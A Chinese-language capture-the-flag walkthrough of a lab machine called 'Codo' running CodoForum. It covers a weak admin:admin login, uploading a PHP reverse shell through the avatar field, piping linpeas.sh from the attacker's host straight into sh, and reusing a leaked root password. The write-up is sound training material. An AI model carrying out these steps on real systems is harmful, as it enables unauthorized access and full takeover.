 ```yaml
---
description: Linux - Easy：CODOFORM V.5.1.105
---
```


# ✔️ Codo

## 建立立足点

### 信息枚举

使用Nmap对目标系统进行开放端口扫描，获得2个端口：22和80

```bash
nmap -sC -sV -p- -oA codo 192.168.200.23 --open  
```

<figure><img src="../.gitbook/assets/1 (3).png" alt=""><figcaption></figcaption></figure>

检查80端口上的Web页面：

<figure><img src="../.gitbook/assets/2 (3).png" alt=""><figcaption></figcaption></figure>

尝试枚举80端口上的隐藏文件/目录，并在**/admin**路径上发现登录界面：

```bash
dirsearch -u http://192.168.200.23
```

<figure><img src="../.gitbook/assets/3 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/4 (3).png" alt=""><figcaption></figcaption></figure>

尝试用弱口令<mark style="color:red;">**admin:admin**</mark>登录成功：

<figure><img src="../.gitbook/assets/5 (3).png" alt=""><figcaption></figcaption></figure>

并且发现目标正在使用的是：CODOFORM V.5.1.105

<figure><img src="../.gitbook/assets/6 (3).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

查找相关漏洞发现其有一个远程命令执行的漏洞可以利用：

```bash
searchsploit codoforum 5.1
searchsploit -m 50978.py .
```

<figure><img src="../.gitbook/assets/7 (4).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/8 (4).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

根据该脚本的使用方法所构造的命令确认无误后，发现始终无法利用成功。但仍然从该脚本中获取到了重要的信息：**可在admin设置中上传脚本**

<figure><img src="../.gitbook/assets/9 (3).png" alt=""><figcaption></figcaption></figure>

决定直接在admin后台中上传反弹shell来get shell。

* 先在全局设置中的可上传文件类型中**添加.php**，以方便后续上传**php-reverse-shell.php脚本**

<figure><img src="../.gitbook/assets/10 (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (2).png" alt=""><figcaption></figcaption></figure>

* 然后准备好php-reverse-shell.php脚本，修改好反弹shell监听的主机IP和端口号，并在Kali本机监听好端口：

```bash
// Kali本机监听
nc -lvnp 1234
```

<figure><img src="../.gitbook/assets/12 (2).png" alt=""><figcaption></figcaption></figure>

* 在用户->管理用户->admin的设置页面中，找到头像上传项，并将准备好的反弹shell脚本上传后，点save键触发脚本：

<figure><img src="../.gitbook/assets/13 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/14 (2).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

成功获得反弹shell，并获得local.txt：

<figure><img src="../.gitbook/assets/15 (2).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息枚举

上传LinPEAS.sh脚本，对目标进行本地信息收集，已发现可利用的提权漏洞：

```bash
// Kali本机准备好linpeas.sh脚本，并在所属目录下开启服务器
python3 -m http.server
// 在目标系统中，下载linpeas.sh到本地并且直接执行
curl -L 192.168.45.172:8000/linpeas.sh |sh
```

<figure><img src="../.gitbook/assets/16 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/17 (2).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

阅读linpeas.sh脚本的输出结果后，发现一个密码：<mark style="color:red;">**FatPanda123**</mark>

<figure><img src="../.gitbook/assets/18 (2).png" alt=""><figcaption></figcaption></figure>

并且已知当前系统上有两个用户账户：offsec和root，分别尝试后发现它是root账户的密码。

### ROOT

<figure><img src="../.gitbook/assets/19 (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/20 (1).png" alt=""><figcaption></figcaption></figure>
